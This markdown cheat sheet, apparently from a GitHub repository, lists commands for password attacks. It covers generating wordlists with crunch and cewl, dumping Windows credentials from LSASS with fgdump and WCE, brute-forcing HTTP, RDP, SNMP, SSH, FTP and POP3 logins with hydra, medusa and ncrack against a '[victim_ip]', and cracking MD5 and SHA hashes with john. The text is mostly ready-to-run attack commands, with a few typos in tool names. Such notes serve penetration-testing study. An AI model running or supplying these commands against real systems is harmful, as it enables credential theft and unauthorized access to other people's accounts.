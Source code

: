 - [Password_generator](#Password_generator)
  - [Crunch](#Crunch)
 - [Windows](#Windows)
  - [pwdump](#pwdump)
  - [WCE](#WCE)
 - [Password_cracking](#Cracking)
  - [HTTP](#HTTP)
  - [RDP](#RDP)
  - [SNMP](#SNMP)
  - [SSH](#SSH)
  - [FTP](#FTP)
  - [POP3](#POP3)
 
## Password generator
### Crunch: 
  - is a wordlist generator where you can specify a standard character set or a character set you specify.

##### crunch 6 6 1234567890ABCDE -o <file.txt>
  - ***6*** min length
  - ***6*** max length
  - ***1234567890ABCDE*** charset
  - ***o*** seve result in file
 
##### crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
  - ***f*** dictionary path
  
##### special chars
  - @ lower case alpha char
  - , upper case alpha char
  - % numeric charset
  - ^ special char include space
------------------------------------------------------------------------------------------------------------------------
### Windows  

#### pwdump fgdump
MS Windows store hased user password in the ***Security account manager (SAM)***
pwdump and fgdump inject a DLL containning the hash dumping code into the ***Local Security Authority Subsystem (LSASS)***

***- c:\> fgdump.exe ***
***- c:\> type 127.0.0.1.pwdump ***

### WCE
- WCE can steal NTLM credentails from memory and dump clear text password
***- c:\> WCE -w ***
------------------------------------------------------------------------------------------------------------------------

### Password Profiling

#### cewl
- cewl <victim_www_url> -d [num] -m [num] -w [file.txt]
------------------------------------------------------------------------------------------------------------------------  
  
### Cracking

#### HTTP
- medusa -h [url] -u [user_name] -p [password_file.txt] -M http

#### RDP B
- ncrack -vv --user [user_name] -P [password_file.txt] rdp://[victim_ip]

#### SNMP 
- hydra -P [password-file.txt] -v [victim_ip] snmp

#### SSH 
- hydra -l [user_name] -P [password_file.txt] [victim_ip] ssh

#### FTP 
- hyrda -L [user_file] -p [password] [victim_ip] ftp

#### POP3 
- hyrda -L [user_file] -P [password_file.txt] [victim_ip] -s [victim_port] -t 50 -I pop3

##### Usefull flag
- -vV : verbose mode
- -e nsr : login as password or login as password in reversed order etc
- -t : threads
------------------------------------------------------------------------------------------------------------------------

### Password Hash Attack

#### Hash identifier
 - usage: hash-identifier
 
#### MD5
- john --format=raw-md5 --wordlist=rockyou.txt [hash.file]

#### SHA1
- john --format=raw-sha1 --wordlist=rockyou.txt [hash.file]

#### SHA224
- john --format=raw-sha224 --wordlist=rockyou.txt [hash.file]

#### SHA512
- john --format=raw-sha512 --wordlist=rockyou.txt [hash.file]
------------------------------------------------------------------------------------------------------------------------

### Pass the hash

# //TODO!
